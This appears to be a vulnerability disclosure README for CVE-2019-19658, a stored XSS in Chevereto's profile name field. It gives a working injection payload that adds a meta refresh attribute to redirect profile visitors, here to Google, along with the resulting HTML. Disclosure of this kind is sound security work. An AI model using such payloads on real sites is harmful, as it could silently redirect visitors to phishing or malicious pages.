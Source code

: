 # CVE-2019-19658
Chevereto stored XSS in profile page - 1.0.0 - 1.1.4 Free, &lt;= 3.13.5 Core. A regular user can input HTML and script into their profile name and it will be executed on their profile page.

```
/settings/profile
```

Name:
```
0;https://www.google.se" http-equiv="refresh" data="
```

Result on profile page, which will redirect to Google:
```
<meta name="twitter:title" content="0;https://www.google.com" http-equiv="refresh" data=" (admin)">
```

</br></br>
Registered user injects some script into the name field, in this case to redirect the user to Google
<kbd>
  <img src="/xss-profile-1.png?raw=true">
</kbd>


</br></br>
Someone enters the profile of /test and is then redirected
<kbd>
  <img src="/xss-profile-2.png?raw=true">
</kbd>

